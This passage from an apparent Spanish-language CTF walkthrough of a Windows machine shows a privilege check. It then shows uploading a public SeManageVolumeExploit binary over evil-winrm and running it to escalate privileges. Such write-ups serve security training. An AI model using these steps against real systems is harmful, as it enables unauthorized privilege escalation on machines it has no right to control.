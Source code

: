 Veremos que ha funcionado, vamos a listar los privilegios que tenemos:

```powershell
whoami /priv
```

Info:

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled
```

Vemos algo bastante interesante y es el privilegio de `SeManageVolumePrivilege` que lo tenemos activado, con esto lo que podemos hacer es realizar operaciones de mantenimiento de volúmenes y puede ser usado para **escalar privilegios**

## Escalate Privileges

Si buscamos en internet algun `PoC` para esta vulnerabilidad veremos la siguiente en el repo de `GitHub`.

URL = [SeManageVolumeExploit GitHub](https://github.com/CsEnox/SeManageVolumeExploit/releases)

Nos descargamos el `SeManageVolumeExploit.exe` y nos lo pasamos desde `wvil-winrm` a una carpeta en la que podamos escribir, por ejemplo en `Downloads` del usuario.

```powershell
cd C:\Users\Ryan.K\Downloads
upload SeManageVolumeExploit.exe
```

Info:

```
Info: Uploading /home/kali/Desktop/certificate/SeManageVolumeExploit.exe to C:\Users\Ryan.K\Downloads\SeManageVolumeExploit.exe
                                        
Data: 16384 bytes of 16384 bytes copied
                                        
Info: Upload successful!
```

Una vez que nos lo hayamos pasado tendremos que ejecutarlo de esta forma:

```powershell
.\SeManageVolumeExploit.exe
```

Info:

```
Entries changed: 867

DONE
```
